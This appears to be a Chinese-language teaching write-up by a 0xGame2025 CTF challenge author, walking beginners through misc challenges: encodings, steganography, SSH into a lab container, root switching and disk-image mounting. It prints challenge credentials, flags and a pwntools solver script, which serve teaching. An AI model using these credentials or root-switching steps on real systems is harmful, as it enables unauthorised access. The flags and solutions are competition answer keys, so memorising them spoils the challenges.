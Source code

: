 ```yaml
---
layout: post
title: 0xGame2025 misc teaching
date: 2025-10-11 15:06 +0800
tags: 
  - 0xgame2025
categories: 
  - misc
image: /assets/img/backgrounds/0xGame海报2.png
---
```



我是0xGame2025的部分Misc的出题人，下面是针对misc方向的授课文案，希望能帮助刚踏上ctf路上的学弟学妹们快速入门

> 0xgame2025所有题目归档传送门如下
> [0xGame2025Week1](https://www.ctfplus.cn/learning/problem/excellent-problemSet/detail/1975497062459904000)
> [0xGame2025Week2](https://www.ctfplus.cn/learning/problem/excellent-problemSet/detail/1978130369429377024)


## Week1

### Sign_in

题目只给我们一串编码，遇到这类题，就把它复制到`cyberchef`这类自动化解密[工具](https://cyberchef.org/)（我们经常管它叫赛博厨子）中，工具会帮我们检测出编码类型

ps:我们在飞书上有准备`cyberchef`的离线版本，下载解压后点击那个html文件就能用

> 这里希望学弟学妹们能看到一种陌生的编码就进行简单的学习，万变不离其宗，只要掌握其中几种编码原理，其他的编码方式也就能快速上手了

简单说说工具的使用，请注意，如果这里output右侧出现魔法棒，就说明，工具已经检测出字符串的可能编码方式，点击即可

> 需要注意，该工具也有可能误判，如果说解密出来的东西不可读或者是别的错误情况，请及时的选择其他法子
{: .prompt-warning }
<img src="/assets/img/0xgame2025teching.assets/image-20250924174928073.png" alt="image-20250924174928073" style="zoom:50%;" />

Recipe中出现From base64，同时output也大变样，形式上很像我们要提交的flag



<img src="/assets/img/0xgame2025teching.assets/image-20250924175758659.png" alt="image-20250924175758659" style="zoom:50%;" />这里先讲解清楚Base64编码原理

#### base64编码原理

Base64编码是使用范围特别广的一种编码方式，不管是图片，文字，音频等各类文件，都可以通过base64编码处理，便携发送到网上进行传输

正常的Base64编码用到的字符集是（A-Z, a-z, 0-9, +, /）共64个字符，但是注意，'A'在字符集的索引值是0，'/'的索引值是63，中间的就按照顺序进行递增

编码原理如下，先将传输的信息转换成二进制，然后这里的二进制串都是8位的，接下来8位变6位，3个字母拆4组，接着6位二进制变十进制，然后按照十进制在Base64字符集中进行索引，上面说的3个字母拆4组，如果说拆的时候不够拆了，要用0填充，但是全是0的那组下面转换索引值后，用=号填充

下面是将明文flag转换成base64编码的原理示意图

<img src="/assets/img/0xgame2025teching.assets/pic_20250924184003_0.jpg" alt="pic_20250924184003_0" style="zoom:50%;" />


> 这里有个小结论，遇到`Zmxh`别迟疑，说不定就是flag的base64编码呢？还有昂，这里我一直说的是编码而不是加密，所以注意一个小细节，以后不要说base64加密
{: .prompt-info }

#### 凯撒密码原理

接下来拿到很像flag的字符串

```text
0hQkwo{Govm0wo_d0_0hQ4w3_2y25_@xn_r@mu_Pyb_peX}
0xGame{xxx}   #这一行给你们比对的
```

刷题数量足够多的话，能快速认识到，这个是凯撒密码这类的简单移位替换密码(仔细观察的话，会发现首字母的数字没变，符号没变，基本上就能往这里猜测了

加密原理就是将明文中的每个字母按照字母表顺序**向后（或向前）移动固定的位置**，得到密文。

> 加解密公式

- **加密**：`密文字母 = (明文字母位置 + 偏移量) mod 26`
- **解密**：`明文字母 = (密文字母位置 - 偏移量 + 26) mod 26`

所以说只要知道密文字母还有**shift**（偏移量）就能快速锁定明文字母

需要注意的地方如下：

凯撒密码进行替换的时候，应该先检测明文是大写还是小写

大写字母范围：`A(65)到Z(90)`

小写字母范围：`a(97)到z(122)`

由于这里的凯撒偏移指定在对应的大小写字母表中，所以我们的范围只有0-25的索引值，就是说，如果明文是大写，我们应该减去65，用得到的结果进行偏移，然后进行26取余确保结果依然在字母表中，然后再+65回到大写字母中，小写字母的解密操作是同样的原理

不过问题来了，我们这里并不知道shift，好在索引值为0-25，就26个选项，可以选择爆破，最坏的结果就是爆破到第26次，理论依据就是我上面说的，加上shift后，我们会对结果进行26取余，让最终得到的偏移值不会超过26

这里还是建议自己手搓凯撒爆破解密脚本

> 什么？！你代码也写不好？女孩子请找我，我来教你写；男孩子也可以来找我，我可以考虑给你梆梆一拳

```python
def exp(str,shift):
    result=""
    for char in str:
        if char.isupper():
            result+=chr((ord(char)-65-shift)%26+65)
        elif char.islower():
            result+=chr((ord(char)-97-shift)%26+97)
        else:
            result+=char

    return result
def solver(str):
    for i in range(26):
        a=exp(str,i)
        if a.startswith("0xGame"):
            print(a)
            break

if __name__=="__main__":
    solver("0hQkwo{Govm0wo_d0_0hQ4w3_2y25_@xn_r@mu_Pyb_peX}")
#0xGame{Welc0me_t0_0xG4m3_2o25_@nd_h@ck_For_fuN}
```

### 公众号原稿

首先要知道一些前置知识

`.docx`文件的本质就是zip压缩包，与此类似的可读的文档（压缩包）格式有.xlsx和.pptx

这是微软从office 2007开始引入的新的默认格式，遵循一个名为“**开放打包约定**”(Open Packaging Conventions,简称OPC)。

在这个约定下，我们可以将一个`.docx`文件看成“披着Word外衣的ZIP压缩包”

关于约定格式上的细节，大家可以自己研究下，只需要知道，下次遇到这类题后，可以尝试将后缀名改成zip，解压看看有没有什么特殊的文件在里面

```bash
[Content_Types].xml
_rels/
docProps/
    app.xml
    core.xml
word/
    document.xml      <-- 这里存放文档的主要文字内容
    styles.xml        <-- 这里存放样式信息
    media/
        image1.png    <-- 你插入的图片就在这里
    theme/
    _rels/
    ...
```

一般来说，解压**.docx**文件后，它的文件目录如上

本题中，你们解压后会在`docProps/`目录下看到gift.xml，而这就是我为你们准备的flag

<img src="/assets/img/0xgame2025teching.assets/2025-09-24-22-16-18-image.png" alt="2025-09-24-22-16-18-image" style="zoom:50%;" />

### ez_shell

> > 注意：本题是SSH容器连接题目
>
> 本题是一道帮助新生接触Linux命令的引导题，其他佬可以跳过下面的引导部分，需要提交的flag组成如下：
>
> - `whoami`命令的结果
> - `pwd`命令的结果
> - 当前路径下的文件夹名（除去上级路径和当前路径符号
> - 该文件夹下面的flag1.txt文件内容
> - `/root`下的flag2.txt文件内容
>
> 上述结果需要用'_'连接，然后用0xGame{}包裹，最终flag样例：`0xGame{who_pwd_xxx_xxx_xxx}`
>
> 会用到的信息：
>
> - **ssh**连接：`hacker/h@cker_it`
> - **root**用户：`root/Y0u_@re_root`

---

如何如何👀？

是第一次接触shell吗，解决不了的话，我来教你,这里有个[Linux命令大全](https://www.linuxcool.com/)，先放这，猜你不会仔细看，好好看看我下面的引导步骤吧，敲黑板昂！！！

<div align="right">
<img src="/assets/img/0xgame2025teching.assets/如何？.jpg" alt="如何？" style="width:30%;">
</div>




#### 引导

> 也许我有没说明白的点，可以随时找我，或者自行研究解决

遇到这样的`tcp`容器题目，需开启容器，会得到类似这样的内容`nc1.ctfplus.cn 34857`

前面部分可以是IP地址也可以是域名，后面的数字是端口号，注意，中间是空开的，和http的':'连接有所差异

常见的tcp服务是使用**netcat**这样的工具进行nc连接的，但是题目描述中，说到了，这个是ssh容器题目，而且给出了连接账密，需要我们通过ssh进行远程连接

---

- step1 进入shell

在终端中输入:

```bash
ssh hacker@nc1.ctfplus.cn -p 34857
```

`tips:powershell,cmd,linux终端等都可以滴`

一般来说，ssh服务是用默认端口22连接的，就是说在平时连接靶机的时候可以不用-p指定端口，而这里是由于docker容器进行了端口转发才需要我们指定对应的端口号进行连接

上面看不懂问题不大，需要清楚一点，连接ssh需要指定靶机上有远程连接权限的用户，比方说本题中，只有hacker用户能ssh连接，root不可以

```bash
ssh hacker@nc1.ctfplus.cn -p 34857
The authenticity of host '[nc1.ctfplus.cn]:34857 ([103.85.86.154]:34857)' can't be established.
ED25519 key fingerprint is SHA256:heNboAPQQACbtUAWuJK45JXDMmx2YFFmYkGyVhd17e0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[nc1.ctfplus.cn]:34857' (ED25519) to the list of known hosts.
hacker@nc1.ctfplus.cn's password:
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <https://wiki.alpinelinux.org/>.

You can setup the system with the command: setup-alpine

You may change this message by editing /etc/motd.

dep-428f3ef5-705a-4364-a5ee-e59fc8e1fc00-5d4c55ff4b-gpflw:~$
```

回车运行命令后会出现一大段安全验证的信息，不用管，大致意思是说本电脑第一次连接该服务器，主机列表中找不到对应的身份记录，然后输出了服务器的公钥指纹，用来验证服务器身份的，这个时候，我们需要输入`yes`来同意连接，然后服务器公钥会保存在本地~/.ssh/known_hosts文件中，下次连接的时候就不会触发警告

接下来是输入密码`h@cker_it`，这里你们会不会因为看不到输入的内容误以为机器出问题了？O(∩_∩)O

这是Linux系统出于安全考虑的设计，为了防止旁观者在我们输入密码时看到任何视觉反馈（包括星号、圆点等）但是我们的每一次输入都是被正常记录的，所以一定要注意不要打错字哦，复制进去也是可以的（这个设计熟悉就好，几乎所有Linux系统都是这样的，就好比手机某网站的登录页面，输入密码全用"·"进行替代

登录后看到类似`hostname:~$` 的字样，就表示我们登录成功，那么恭喜你第一次进入shell成功了🥳🥳🥳

- step2 开始答题

所有Linux的基础命令都一样的，详细介绍还是请看我上面放置的网页链接,下面仅仅讲述题目中要用到的命令，也是我们经常用的

-- whoami

很显然，是who am i（我是谁），用途是显示当前用户名

```bash
yolo@yolo:~$ whoami
yolo
```

-- pwd

print working directory，功能是显示当前工作目录的绝对路径

```bash
yolo@yolo:~$ pwd
/home/yolo
```

-- ls

真是最最常用的命令，用途是列出当前路径下的文件及其属性信息，但是经常要结合参数使用

```
yolo@yolo:~$ ls
yolo@yolo:~$ ls -la
total 12
drwxr-xr-x  3 yolo yolo 4096 Sep 26 17:58 .
drwxr-xr-x 11 yolo yolo 4096 Sep 26 17:56 ..
drwxr-xr-x  2 yolo yolo 4096 Sep 26 17:58 .secret
```

第一个ls会单纯列出正常无隐藏的文件名或文件夹名，在Linux中，像.xxx这样的，名字前面是'.'的文件或文件夹会被系统默认隐藏，需要使用-a显示所有文件，包括隐藏的；-l会列出文件的属性，包括文件类型、权限、编辑时间、所有者等等

> 这里的.代表的是当前目录，是一种相对路径，..代表的是上一级路径，前面的**drwxr-xr-x**交给你们自己研究

-- pwd

本命令可以改变当前路径，和我们在Windows桌面双点某文件夹进去看里面的内容的操作类似

```
yolo@yolo:~$ pwd
/home/yolo
yolo@yolo:~$ cd .secret
yolo@yolo:~/.secret$ pwd
/home/yolo/.secret
```

-- cat 

本命令可以读取指定文件的内容，正常来说，推荐用cat读取那些小点的，纯文本的文件，比方说flag.txt这样的，其他情况下，有其他命令可以用，比如more,less等等，自个研究昂

```
yolo@yolo:~/Desktop/.secret$ ls
flag1.txt
yolo@yolo:~/Desktop/.secret$ cat flag1.txt
congratulation!
```

-- su root

Linux对于权限的概念很严格（当然Windows同样，只是不常见

一些文件或路径，需要高权限乃至root用户才能进入，这个时候，我们需要使用su xxx指定切换用户，同样需要使用登录密码

```
yolo@yolo:~/.secret$ cd /root
-bash: cd: /root: Permission denied
yolo@yolo:~/.secret$ su root
Password:
root@yolo:/.secret# cd /root
root@yolo:~# pwd
/root
```

这里我给用户同样设置了不用密码的sudo权限，允许用户yolo不输入密码的情况下直接执行root权限命令

```
yolo@yolo:~/.secret$ id
uid=1000(yolo) gid=1000(yolo) groups=1000(yolo)
yolo@yolo:~/.secret$ sudo su
root@yolo:/home/yolo/.secret# id
uid=0(root) gid=0(root) groups=0(root)
root@yolo:/home/yolo/.secret# cd /root
root@yolo:~# cat flag2.txt
hacker!
```

- step3 合成flag

```
0xGame{yolo_/home/yolo_.secret_congratulation!_hacker!}
```



> 我猜真有人把上面的flag交上去了吧，梆梆锤你呢，自个做一遍，熟悉下，然后这里学长给出建议，一定要多用，越学到后面，我们的命令行工具使用的就越多，而且，在终端上操作没有一种黑客体验感吗？多cool!

<div align="center">
<img src="/assets/img/0xgame2025teching.assets/7c3be7774e8d988c5409a15e55949b22.jpg" alt="cool" style="width:30%;">
</div>



### Zootopia

这个题的考点很基础，是png图片的LSB隐写，下面就简单说说lsb的隐写原理，如果对其他png隐写方法感兴趣，可以看看这篇[博客](https://www.yo1o.top/posts/png-challenge/)

> 嗯，没错，是我写的

#### lsb原理

首先有个大概的理解，在png图片中，一个像素点在文件数据中存储的大小是三个字节，比较常见的模式是按照rgb进行存储的（模式有很多种，但是rgb确实是最常见，其他的模式对应的隐写原理和下面的一样

rgb三个颜色通道的范围都是`[0-255]`
> warning@别记岔了！！！
{: .prompt-warning }

```text
几个常见的颜色
红色：(255,0,0)
绿色：(0,255,0)
蓝色：(0,0,255)
白色：(255,255,255)
```

然后在文件内部，数据是按照8位二进制进行存储的，比方说某个像素点的值是(111,222,225)，那么在存储中，对应的值是(01101111,11011110,11100001)

然后这里，我们定义每个8位二进制的最后一位为`LSB`  (**Least Significant Bit**,最低有效位)

所谓的lsb隐写就是对每个二进制的最低有效位进行编辑，使用01二进制进行隐写信息，可以藏文件，也可以藏字符串，同样，颜色通道的选择也很多样性，可以仅仅对R通道进行隐写，也可以选择两个以上......

在lsb的原理基础上，颜色通道隐写还能拓展到其他的通道中，也就出现了`MSB` (**Most Significant Bit**,最高有效位)或者其他混乱通道隐写（组合起来很多，不过原理都是一样的

> 编者补充：lsb隐写相对msb而言，有个显著的优势，那就是对整个画面影响不大，或者说我们肉眼几乎看不清隐写前后的差异

#### 解密LSB

解决方式很多，由于lsb的提取稍微麻烦点，我们这里就不细说脚本怎么搓（写提取脚本老麻烦了呢

推荐的解密工具有`Stegsolve`,`Zsteg`

##### stegsolve

前者是有可视化界面的提取通道隐写的工具，同样也有对单个颜色通道提取查看图片的功能，还有xor等等操作，目前来看，我感觉这个最好用

<img src="/assets/img/0xgame2025teching.assets/image-20251001160837872.png" alt="image-20251001160837872" style="zoom:50%;" />

先导入图片（你把png图片给拉进去也没问题

**Analyse->Data Extract->勾选Red,Green,Blue三个通道的最后一位->选中LSB First(虽说感觉没用)->Preview**

通过上述操作，我们能看到文件最前面隐藏了flag，但是在当前情况下，直接复制，会顺带把左边的十六进制数据复制到，建议把preview上面的`Include Hex Dump In Preview`取消勾选，重新Preview下，就好复制flag了（复制出来的结果中间有空格，自行删减就好

##### zsteg

后者是命令行工具，可以帮我们检测多个颜色通道可能有的隐写信息，提取也很好提

正常来说，直接`zsteg xxx.png`可以显示大部分可读的颜色通道隐写的部分内容，然后一些情况下，我们可能会发现稍大文件被隐写进去，这时候我们需要使用**-E xxx<通道组合>** 来完整提取隐写数据到文件中

<img src="/assets/img/0xgame2025teching.assets/image-20251001161738864.png" alt="image-20251001161738864" style="zoom:50%;" />

```text
0xGame{W1_Need_t0_t@k3_a_break}
```

### ezshell_PLUS

本题是ezshell的进阶，就是看看大家的自学能力如何，下面我给出我的步骤

<img src="/assets/img/0xgame2025teching.assets/image-20251001163833641.png" alt="image-20251001163833641" style="zoom:50%;" />

```bash
sha256sum files/* | grep -i "021832def36ccd081b38d8fd51b534d70826b5df4423ce2c15386797ab08bef8"
```

我猜测这里让你们感觉新奇吧，就是用了个管道符，让前一步的输出作为后一步的输入

然后用到了sha256sum，grep命令，这些也很常见，分别是计算哈希和查找

然后这里有个”*“，它被叫做通配符，可以匹配任意字符

> 学长只能说，多见多学多用，命令行用熟悉，会对后面的学习帮助很大

### Do not enter

本题考察了dd镜像挂载与分析

我们首先用file命令查看镜像的基本结构

```bash
file do_not_enter.dd
do_not_enter.dd: DOS/MBR boot sector; partition 1 : ID=0x83, start-CHS (0x10,0,1), end-CHS (0x28f,3,32), startsector 2048, 81920 sectors; partition 2 : ID=0x83, start-CHS (0x2a0,0,1), end-CHS (0x3ff,3,32), startsector 86016, 81920 sectors; partition 3 : ID=0xf, start-CHS (0x3ff,3,32), end-CHS (0x3ff,3,32), startsector 169984, 178176 sectors
```

从输出可以看出，**do_not_enter.dd**是一个MBR（主引导记录）格式的磁盘镜像，包含一个引导扇区和三个分区

- 分区1和2是Linux原生分区（类型0x83)
- 分区3是扩展分区（类型0x0f),通常用于容纳更多逻辑分区

上面看不懂问题不大，反正和下面的解题过程没多少关系，做多了，就会有更深的体会(●'◡'●)

> 💡 小知识：MBR 是一种较老但广泛支持的分区方案，现代系统更多使用 GPT，但大多数 Linux 工具（如 `fdisk`、`mount`、`losetup` 等）依然能很好地处理 MBR 镜像。
> 如果你还不熟悉“引导扇区”“分区表”这些概念，没关系！你可以简单把它理解为：**这个 `.dd` 文件就像是把一整块硬盘“拍了张快照”保存下来了**。我们要做的，就是用合适的工具把这个“虚拟硬盘”挂载到系统里，像打开普通文件夹一样去查看里面的内容。

#### 做法

**第一步：创建循环设备映射**

```
sudo losetup -fP do_not_enter.dd
```

命令解释：

- losetup:linux下的循环设备管理工具，能将文件虚拟成块,换句话说，就是把一个dd文件转换成机器磁盘可以读的格式
- -f:自动查找第一个可用的loop设备
- -P：关键参数！让内核在关联后重新扫描分区表，自动创建分区设备节点
- 作用：将DD镜像文件虚拟成一个”硬盘“，系统会识别出其中的分区结构

**第二步：验证设备映射状态**

```
sudo losetup -a
```

命令解释：

- -a:显示所有活跃的loop设备状态

**第三步：识别分区结构与标签**

```
lsblk -f /dev/loop0 #后面的/dev/loop0是通过第二步得到的
```

命令解释：

- lsblk:列出块设备信息的专业工具
- -f:显示文件系统信息，包括分区标签
- 我的考点其实就是这里，就像题目说的那样，我们应该选中那个do_not_enter的标签

**第四步：挂载目标分区**

```
mkdir -p /mnt/test
sudo mount /dev/loop0p2 /mnt/test
```

命令解释：

- mount:标准的文件系统挂载命令
- /dev/loop0p2:我们要挂载的分区设备 #这里的参数是通过第三步得到的
- /mnt/test：我们设置的挂载点目录
- 底层原理：将分区中的ext4文件系统挂载到目录树，使文件可访问

**第五步：搜索flag内容**

```
sudo grep -r "0xGame" /mnt/test
```

命令解释：

- grep:强大的文本搜索工具
- -r:递归搜索，遍历目录下的所有文件
- "0xGame":flag头

**第六步：清理**

```
sudo umount /mnt/test
sudo losetup -d /dev/loop0
sudo rmdir /mnt/test
```

本题还有其他工具能快速挂载，比如说**kpartx**

然后关于**blkid**，也能用它来读取那个分区的标签，在某些情况下，它可以和**lsblk**换着用

| 特性         | **`blkid`**                         | **`lsblk`**                      |
| ------------ | ----------------------------------- | -------------------------------- |
| **主要功能** | 读取**文件系统**的元数据和属性      | 显示**块设备**的拓扑结构和关系   |
| **数据来源** | 读取文件系统的超级块(superblock)    | 查询内核的块设备信息(sysfs)      |
| **输出视角** | **文件系统视角**                    | **设备拓扑视角**                 |
| **信息类型** | 文件系统特定属性(UUID, LABEL, TYPE) | 设备层次关系(父子、大小、挂载点) |
| **使用场景** | 按属性识别和挂载文件系统            | 理解磁盘分区结构和布局           |

然后下面是我给出的参考步骤，可以看出在正确步骤下，我们只能找到一个完完整整的flag的，fake flag真的一点也没为难大家的（盲猜有人说我胡乱塞东西，哈哈

```bash
~$ sudo losetup -fP do_not_enter.dd
~$ sudo losetup -a
/dev/loop0: [2096]:536444 (/home/yolo/Desktop/timu/0xGame_challenge/do_not_enter.dd)
~$ lsblk -f /dev/loop0
NAME      FSTYPE FSVER LABEL        UUID                                 FSAVAIL FSUSE% MOUNTPOINTS
loop0
├─loop0p1 ext4   1.0   UserShare    5a6be8f0-43f9-4020-a729-510d6d57e95b
├─loop0p2 ext4   1.0   Do_not_enter 643298ec-2a07-4681-9555-addf90de8ae1
├─loop0p3
├─loop0p5 ext4   1.0   WebServer    f965eed6-3de2-4533-8e06-2c816f9e4574
└─loop0p6 ext4   1.0   SysLogs      650ce632-c57e-41c6-8a3b-c6bf3d4e2193
~$ sudo mount /dev/loop0p2 /mnt/test
~$ sudo grep -r "0xGame" /mnt/test
/mnt/test/syslog:0xGame{WoW_y0u_fouNd_1t?_114514}
~$ sudo umount /mnt/test
~$ sudo losetup -d /dev/loop0
~$ sudo rmdir /mnt/test
```

<img src="/assets/img/0xgame2025teching.assets/image-20251002010301159.png" alt="image-20251002010301159" style="zoom:50%;" />

一些其他工具（Windows，本意还是让大家掌握dd镜像挂载方式，但是赖我，没有给大家说清楚，应该关注分区标签，为各位师傅解题时候造成困扰感到抱歉

- AXIOM

<img src="/assets/img/0xgame2025teching.assets/image-20251009225550160.png" alt="image-20251009225550160" style="zoom:50%;" />

- DiskGenius

<img src="/assets/img/0xgame2025teching.assets/image-20251009225621434.png" alt="image-20251009225621434" style="zoom:50%;" />

- R-Studio

<img src="/assets/img/0xgame2025teching.assets/image-20251009225641928.png" alt="image-20251009225641928" style="zoom:50%;" />

#### 学长碎碎念

关于本题，我设置了180个fake flag，目的就是希望新生们采取专业工具科学地进行分析，而不是使用strings暴力手撕，然后在Windows这边，有人用axiom能读出标签名，我测试过autopsy，发现不能显示分区标签，而且一些选手和我聊过，他们用火眼、取证大师等等著名一把梭取证工具也没能解决出来（~~可见我出的题还蛮好~~ ，其实是希望学弟学妹们在后面的学习中，会遇到越来越多的一把梭脚本或者说是妙妙小工具，我并不排斥使用的，但是！我希望你们能掌握对应的原理并亲手用自己的"笨"方法解决出一两道后再选择是否使用所谓的“一把梭”，不然，没了好用的神奇小工具，你还能做出什么呢？

> 在我看来，一把梭工具应该被用在重要赛事抢血上，而不是简单小比赛上冲榜用的

接下来关于AI，这个是近年来最热门的东西，有了ai，对你们入门ctf的帮助会非常非常大，不用觉得啥事都问ai会不好意思，因为我也最开始啥也不懂，这样过来的。所以还是很鼓励大家学习新知识的时候，先自己研究，卡住的话询问ai解决方案，接下来才是找圈子内厉害的师傅（一定要整理并描述清楚自己遇到的问题，不然对他们来说，帮你解惑的难度会上一个档次,haha

然后每次从ai那里拿到解决方案，希望你们能从中学习到一些，而不是无脑的**ai说啥你干啥**，不然下次遇到类似的问题，我们再问一遍AI？这也就带出了我下面给大家的忠告：一定`合理`使用AI，趁着AI在旁边，我们多通过它学习一些新知识，等我们用不了的情况下，也不会手足无措（想象这样一个情景，如果说你啥事只会问ai，那么你所做的事情是不是任何人都能替代？是不是说你失去了ai，会一点竞争力都没有？

## Week2

> 从week2开始，赛题难度上升，这也就意味着大家需要提升学习效率，争取在短时间内学会更多的知识点

### 这个b64不太对啊


> 小拓展
{: .prompt-success }


> 交互出现的中文乱码对解题没有任何影响，但是为了解题体验，可以选择下述方式优化：
> 优先建议使用Linux的终端，wsl2,虚拟机均可，它们支持utf-8
> 如果是使用cmd，请nc连接容器之前，输入`chcp 65001`回车，将编码方式从gbk切换成utf-8后再nc连接
> 如果说是powershell，这个稍微麻烦点
> 需要实现操作如下：依次将下面三个命令输入到powershell中
> `chcp 65001`
> `[Console]::InputEncoding = [System.Text.Encoding]::UTF8`
> `[Console]::OutputEncoding = [System.Text.Encoding]::UTF8`



> 本题可以变相的看作一道密码简单题，既然想学misc，各个方向都要有所了解

base64原理，我给大家在week1上讲的很清楚了，然后本题的考法是将字符集索引表自定义，选手们需要通过将明文和密文进行对比，反推字符集，获取flag，这里面是有多种解决方法的，一个一个字符进行手动拼接也可行，不过我下面讲解一个相对高效的方法：

我们先回顾base64编码原理

```text
三个字节转换为24位的二进制数据，然后分割整理成4组6位二进制，将它们转换成十进制作为索引值，最后就是在base64字符集中找到对应的密文字符进行拼接。

这里有个结论，那就是3个明文字符编码后一定会得到4个字符的密文，且不可能出现=作为填充。

ps：如果你在 Linux 中用 echo "abc" | base64 会得到带 = 的结果，那是因为 echo 默认会在字符串末尾添加一个换行符 \n，导致实际输入是 4 个字节（abc\n），而 Base64 对非 3 的倍数字节会填充 =。若使用 echo -n "abc" | base64 或 Python 的 base64.b64encode(b"abc")，就不会有填充。
```

在 Base64 编码中，每3个字节被划分为4个6位组。其中，**第4个6位组完全由第3个输入字节的低6位构成**（因为前两个字节共16位，只能影响前3个6位组）。因此，无论前两个字节是什么，只要固定它们，改变第3个字节，第4个输出字符就只由第3字节的低6位（即 `byte3 % 64`）决定。（所以说 `'AA'` 完全是占位符，你可以用任意两个可打印字符代替，比如 `'BB'`、`'!!'` 等，只要保持固定即可。

下面我们拿AAX举例（标记：这里的X是任意可打印字符,然后AA仅仅是用来占位

```text
已知：A：ASCII值为65
     X:ASCII值[33,126],只要是可打印字符都可，我们下面转换二进制的时候用'x'代替(x只能取值0或1

  明文   |   A     |    A     |    X
8位二进制 |01000001 | 01000001 | xxxxxxxx
我们拿正常字符集顺序(A-Z,a-z,0-9,+,/)进行举例
A(65),/(47)
举例一：
   A        A         A
01000001 01000001 01000001
010000 010100 000101 000001
  16     20     5      1    <----这里的索引值是1没有任何问题，字符集索引是从0开始的
   Q      U     F      B    <----这里，B正好是标准字符集的第二个

举例二：
   A        A         /
01000001 01000001 00101111
010000 010100 000100 101111
  16     20     4      47    <----这里的索引值是47
   Q      U     E      v    <----这里，v正好是标准字符集的第48个
```

大家有没有看出来什么？

> 感觉还是很懵逼的话，可以手上算算，划拉一下，一定能有所悟

我这里稍微归纳整理了下，使用第3个字母的ASCII值直接对64进行取余运算，拿到的值就是第4个密文的索引值，其中的数学原理和上面举的例子（取低6位）是一样的，比如说A(65)，对64进行取余的结果是1，然后/(47)，对64取余是47，计算结果完全是低6位转换十进制的结果

*脚本的核心原理：**Base64 编码后第4个字符的索引值，等于第3个输入字节的低6位（即 `byte3 % 64`）**。*

```python
import base64
import string
from pwn import *

HOST = 'nc1.ctfplus.cn' 
PORT = 38453 

def solve():
    try:
        p = remote(HOST, PORT)
    except PwnlibException as e:
        print(f"[ERROR] 无法连接到服务器 {HOST}:{PORT}. 错误: {e}")
        return

    
    p.recvuntil(b'Choose an option (1/2): ')
    p.sendline(b'1')
    p.recvuntil(b'> ')

    
    charset_map = {}
    PROBE_START = 33
    PROBE_END = 96 #33 + 64 - 1 = 96，连续64个ASCII字符足以覆盖所有 (i % 64) 的可能值
    
    i = PROBE_START
    while len(charset_map) < 64:
      
        if i > PROBE_END:
            # 理论上不可能触发的
            p.error("FATAL: Failed to discover all 64 characters within the visible range (33-126). Aborting.")
            p.close()
            return

        probe_char = chr(i)
        # 'AA' + 探测字符 X
        probe_data = ('AA' + probe_char).encode('ascii')

        p.sendline(probe_data)
        
        p.recvuntil(b'Result: ')
        encoded_result = p.recvline().strip().decode()
        
        if len(encoded_result) < 4:
             p.warn(f"i={i} ({probe_char}): Unexpected result length {len(encoded_result)} ('{encoded_result}'). Skipping.")
             i += 1
             continue
        
        # 精确提取第 4 个字符 (索引 3)
        target_char = encoded_result[3]

        target_index = i & 0x3f #0x3f = 63，位运算取最后6位 
        #target_index = i % 64  #上下两种写法等价，取余运算，本质上都是直接拿到低6位
 #一些数学上的解释：因为 64 是 2 的幂，i % 64 等价于取 i 的低 6 位，即 i & 0x3F，位运算更快
        
        if target_index not in charset_map:
            # 严格排除填充字符 '='
            if target_char == '=':
                 p.warn(f"i={i} ({probe_char}): Encountered unexpected '=' character. Skipping this index {target_index}.")
                 i += 1
                 continue
                 
            charset_map[target_index] = target_char
        
        print(f"\r[*] Progress: {len(charset_map)}/64 discovered", end="")
        i += 1

    print("\n[+] Charset map fully discovered!")
    final_charset = "".join(charset_map.get(k, '?') for k in range(64))

    if '?' in final_charset:
        p.error(f"Build failed. Resulting charset is incomplete: {final_charset}")
        p.close()
        return
        
    if len(set(final_charset)) != 64:
        p.error(f"Build failed. Resulting charset contains duplicates or invalid chars: {final_charset}")
        p.close()
        return

    p.success(f"Reconstructed charset: {final_charset}")
    p.sendline(b'!q')
    p.recvuntil(b'Choose an option (1/2): ')
    p.sendline(b'2')
    p.recvuntil(b'Your charset guess: ')
    p.sendline(final_charset.encode())
    
    p.success("Charset submitted! Receiving flag...")

    flag_output = p.recvall(timeout=2).decode()
    print("\n" + "="*20 + " FLAG " + "="*20)
    print(flag_output)
    print("="*46)
    
    p.close()

if __name__ == "__main__":
    solve()
```

> 解决方式真的很多，Spreng师傅还有个纯密码测试脚本，如果对这个知识点感兴趣可以和他探讨一二

### 开锁师傅

本题是zip压缩包攻击分类中的明文攻击，可以看到的，压缩包中存在一个png图片，一些png文件结构相关的知识，请上网搜索

